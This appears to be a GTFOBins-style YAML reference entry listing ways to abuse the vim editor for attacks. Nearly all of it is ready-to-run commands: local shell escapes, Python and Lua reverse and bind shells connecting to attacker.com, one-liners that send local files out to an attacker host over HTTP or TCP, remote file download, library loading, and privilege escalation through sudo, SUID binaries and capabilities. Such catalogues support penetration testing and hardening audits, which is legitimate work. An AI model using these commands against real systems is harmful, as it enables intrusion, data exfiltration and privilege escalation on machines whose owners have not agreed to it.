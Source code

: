 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: |
        vim
        :set shell=/bin/sh
        :shell
    - description: This one liner will open a shell before opening vim.
      code: vim --cmd ':set shell=/bin/bash|:shell'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: vim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  library-load:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: sudo vim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vim` is compiled with Lua support.
      code: ./vim -c ':lua os.execute("reset; exec sh")'
---
```

